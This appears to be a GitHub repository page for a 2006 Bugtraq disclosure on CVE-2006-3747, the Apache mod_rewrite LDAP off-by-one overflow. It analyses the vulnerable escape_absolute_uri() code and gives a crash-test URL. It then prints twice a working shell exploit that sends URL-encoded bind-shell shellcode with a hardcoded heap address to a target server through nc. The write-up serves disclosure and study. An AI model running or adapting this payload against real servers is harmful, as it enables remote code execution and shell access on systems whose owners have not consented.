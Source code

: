 Screenshot
----------

![](Listado7.png "Listado7.png")

INFO
----

    Files about my bugtraq publication and first working exploit for CVE-2006-3747 (Apache mod_rewrite LDAP off-by-one buffer overflow).

    (http://www.securityfocus.com/archive/1/443870)

    - Public release date of POC/Exploit: 2006-08-20
    - Author: Jacobo Avariento Gimeno
    - CVE id: CVE-2006-3747
    - Bugtraq id: 19204
    - CERT advisory: VU#395412
    - Severity: high
    - CVSS v2 Base Score: 7.6 HIGH (AV:N/AC:H/Au:N/C:C/I:C/A:C)

    ## Introduction

    On July 28 2006 Mark Dowd (McAfee Avert Labs) reported a vulnerability
    found in mod_rewrite apache module to the bugtraq mailing list.
    The vulnerable function is escape_absolute_uri() and the problem only
    could be arised when mod_rewrite is dealing with an LDAP URL, a
    malformed LDAP URL could trigger an off-by-one overflow in certain
    (special) situations and a possible attacker could cause a
    denial-of-service or execute arbitrary code with the privileges of
    the apache user.
    To exploit this vulnerability isn't necessary an LDAP-specific rule,
    but must have a rule which the user can control the inital part of the
    remapped URL, i.e.:

    ```
    RewriteRule foo/(.*) $1
    ```

    Any version of the Apache HTTP server:
    * 1.3 branch: >1.3.28 and <1.3.37
    * 2.0 branch: >2.0.46 and <2.0.59
    * 2.2 branch: >2.2.0 and <2.2.3
    is vulnerable.


    ## Analysis of the vulnerable code

    ```
    2696 /* escape absolute uri, which may or may not be path oriented.
    2697 * So let's handle them differently.
    2698 */
    2699 static char *escape_absolute_uri(ap_pool *p, char *uri,
    unsigned scheme)
    2700 {
    2701 char *cp;
    2702 ...
    ...
    2727 /* special thing for ldap.
    2728 * The parts are separated by question marks. From RFC 2255:
    2729 * ldapurl = scheme "://" [hostport] ["/"
    2730 * [dn ["?" [attributes] ["?" [scope]
    2731 * ["?" [filter] ["?" extensions]]]]]]
    2732 */
    2733 if (!strncasecmp(uri, "ldap", 4)) {
    2734 char *token[5];
    2735 int c = 0;
    2736
    2737 token[0] = cp = ap_pstrdup(p, cp);
    2738 while (*cp && c < 5) {
    2739 if (*cp == '?') {
    2740 token[++c] = cp + 1;
    2741 *cp = '\0';
    2742 }
    2743 ++cp;
    2744 }
    ```

    In the case that an LDAP URI contains a fifth '?' the line 2740 causes
    an off-by-one overflow, it's writing in token[5].
    To exploit this problem is necessary a vulnerable apache version and a
    specific stack frame layout.

    ## Proof of concept

    To know if your apache vulnerable version could be successful
    exploited, write this rule in your httpd.conf or .htaccess file:

    ```
    RewriteRule kung/(.*) $1

    And try to access to the following URL:
    /kung/ldap://localhost/AAAAAAAAAAAAAAAAAAAAA%3FAAAAAAAAAAAAA%
    3FAAAAAAAAAAAAAAA%3FAAAAAAAAAA%3FAAAAAAAAAA%3FBBBBBBBBBBBBBB
    ```

    If your web server doesn't reply you with a '302 Found' page or a
    Segmentation Fault appears in your error_log, an apache child has
    crashed and your web server is vulnerable and exploitable.

    ## Exploit

    This exploit was successful executed on Apache 1.3.34, debian
    sarge package:

    ```
    #!/bin/sh
    # Exploit for Apache mod_rewrite off-by-one.
    # Vulnerability discovered by Mark Dowd.
    # CVE-2006-3747
    #
    # by jack <jack\x40gulcas\x2Eorg>
    # 2006-08-20
    #
    # Thx to xuso for help me with the shellcode.
    #
    # I suppose that you've the "RewriteRule kung/(.*) $1" rule if not
    # you must recalculate adressess.
    #
    # Shellcode is based on Taeho Oh bindshell on port 30464 and modified
    # for avoiding apache url-escape.. Take a look is quite nice ;)
    #
    # Shellcode address in heap memory on apache 1.3.34 (debian sarge) is at
    # 0x0834ae77 for any other version/system find it.
    #
    # Gulcas rulez :P

    echo -e "mod_rewrite apache off-by-one overflow\nby jack <jack\x40gulcas
    \x2eorg>\n\n"

    if [ $# -ne 1 ] ; then
    echo "Usage: $0 webserver"
    exit
    fi

    host=$1

    echo -ne "GET /kung/ldap://localhost/`perl -e 'print "%90"x128'`%89%e6%
    31%c0%31 %db%89%f1%b0%02%89%06%b0%01%89%46%04%b0%06%89%46%08%b0%66%b3%
    01%cd%80%89%06%b0%02%66%89%46%0c%b0%77%66%89%46%0e%8d%46%0c%89%46%04%
    31%c0%89%46%10%b0%10%89%46%08% b0%66%b3%02%cd%80%b0%01%89%46%04%b0%66%
    b3%04%cd%80%31%c0%89%46%04%89%46%08%b0%66%b3%05%cd%80%88%c3%b0%3f%31%
    c9%cd%80%b0%3f%b1%01%cd%80%b0%3f%b1%02%cd%80%b8%23%62%69%6e%89%06%b8%
    23%73%68%23%89%46%04%31%c0%88%46%07%b0%30%2c%01%88%46%04%88%06%89%76%
    08%31%c0%89%46%0c%b0%0b%89%f3%8d%4e%08%8d%56%0c%cd%80%31%c0%b0%01%31%db%

    cd %80%3FC%3FC%3FCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC%
    77%ae%34%08CCCCCCCCCCCCCCCCCCCCCCCCCCC%3FC%3F HTTP/1.1\r\nHost:
    $host\r\n\r\n" | nc $host 80
    ```

    ~~ Jacobo Avariento Gimeno

exploit.sh
----------

    #!/bin/sh
    # Exploit for Apache mod_rewrite off-by-one.
    # Vulnerability discovered by Mark Dowd.
    # CVE-2006-3747
    #
    # by jack <jack\x40gulcas\x2Eorg>
    # 2006-08-20
    #
    # Thx to xuso for help me with the shellcode.
    #
    # I suppose that you've the "RewriteRule kung/(.*) $1" rule if not
    # you must recalculate adressess.
    #
    # Shellcode is based on Taeho Oh bindshell on port 30464 and modified
    # for avoiding apache url-escape.. Take a look is quite nice ;)
    #
    # Shellcode address in heap memory on apache 1.3.34 (debian sarge) is at
    # 0x0834ae77 for any other version/system find it.
    #
    # Gulcas rulez :P

    echo -e "mod_rewrite apache off-by-one overflow"
    echo -e "by jack <jack\x40gulcas\x2eorg>\n\n"

    if [ $# -ne 1 ] ; then
      echo "Usage: $0 webserver"
      exit
    fi

    host=$1

    echo -ne "GET /kung/ldap://localhost/`perl -e 'print "%90"x128'`%89%e6\
    %31%c0%31%db%89%f1%b0%02%89%06%b0%01%89%46%04%b0%06%89%46%08%b0%66%b3\
    %01%cd%80%89%06%b0%02%66%89%46%0c%b0%77%66%89%46%0e%8d%46%0c%89%46%04\
    %31%c0%89%46%10%b0%10%89%46%08%b0%66%b3%02%cd%80%b0%01%89%46%04%b0%66\
    %b3%04%cd%80%31%c0%89%46%04%89%46%08%b0%66%b3%05%cd%80%88%c3%b0%3f%31\
    %c9%cd%80%b0%3f%b1%01%cd%80%b0%3f%b1%02%cd%80%b8%23%62%69%6e%89%06%b8\
    %23%73%68%23%89%46%04%31%c0%88%46%07%b0%30%2c%01%88%46%04%88%06%89%76\
    %08%31%c0%89%46%0c%b0%0b%89%f3%8d%4e%08%8d%56%0c%cd%80%31%c0%b0%01%31%db\
    %cd%80%3FC%3FC%3FCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\
    %77%ae%34%08CCCCCCCCCCCCCCCCCCCCCCCCCCC%3FC%3F HTTP/1.1\r\n\
    Host: $host\r\n\r\n" | nc $host 80